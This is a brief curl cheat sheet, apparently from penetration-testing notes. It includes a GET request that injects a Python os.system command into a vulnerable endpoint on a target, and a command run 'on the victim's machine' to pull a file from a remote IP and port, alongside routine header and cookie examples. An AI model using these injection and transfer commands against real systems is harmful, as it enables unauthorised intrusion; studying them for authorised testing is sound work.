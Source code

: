 **Sending a GET Request with a Command Injection:**
```
curl "http://TARGET_IP/vuln?cmd=__import__('os').system('id')"
```

#### Download a File Locally
**On Victim's Machine**
```
curl -O http://IP:PORT/file_path/filename
```

#### Display Server Header Response
```
curl -I http://www.server.com/filename.txt
```

#### Download and display file, supressing progress, with specified cookie
```
curl --silent -b "cookiename=cookievalue" http://www.server.com/filename.txt
```